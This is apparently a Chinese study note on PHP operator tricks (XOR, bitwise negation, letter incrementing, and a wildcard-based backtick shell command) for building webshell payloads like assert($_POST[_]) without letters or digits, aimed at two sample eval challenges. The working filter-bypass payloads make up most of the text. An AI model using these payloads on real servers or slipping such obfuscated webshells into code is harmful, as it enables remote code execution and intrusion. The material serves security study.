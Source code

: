 # 运算符

## 前言

通过phithon师傅的文章整理学习PHP运算符中的Trick。主要通过两段代码进项学习~，其中也包括了一些`Linux`下的一些Trick。

### 代码1

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

思路是，将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字符。然后再利用PHP允许动态函数执行的特点，拼接处一个函数名，如“assert”，然后动态执行之即可。

#### 利用字符串异或（PHP5

代码如下：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

结果![](../images/19-9-28_PHP_运算符_1.jpg)

#### 利用字符串异或（PHP5

利用UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`

![](../images/19-9-28_PHP_运算符_2.jpg)

随便选取一篇文章，写脚本跑一下得到如下：

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

以上还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

结果：

![](../images/19-9-28_PHP_运算符_3.jpg)

#### 递增／递减运算符（PHP5

利用数组转化为字符串其值为`Array`，获取字母`A`，通过PHP的`'a'++ => 'b'`特性，可以获取所有的字母。其次，PHP的变量名不区分大小写（区分大小写，也可以获取`Array`的小a

![](../images/19-9-28_PHP_运算符_4.jpg)

 利用代码如下：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

结果如下：

![](../images/19-9-28_PHP_运算符_5.jpg)

### 代码2

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

这道题目多了两个限制

- 长度限制为`<=35`
- 除了数字和字母，也不能包括`_`和`$`

#### 取反（PHP7

PHP7前是不允许用`($a)();`这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过`('phpinfo')();`来执行函数，第一个括号中可以是任意PHP表达式。如下：

```php
<?php
(~urldecode('%8F%97%8F%96%91%99%90'))();
?>
```

#### Shell（PHP5

利用Linux的通配符，`.  xx`执行脚本的特性，以及PHP使用反引号执行命令的特点，得到如下：

```php
?><?=`. /???/????????[@-[]`;?>
```

结果：

![](../images/19-9-28_PHP_运算符_6.jpg)

## 参考

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

- https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

- https://www.php.net/manual/zh/language.operators.bitwise.php

- http://php.net/manual/zh/language.operators.increment.php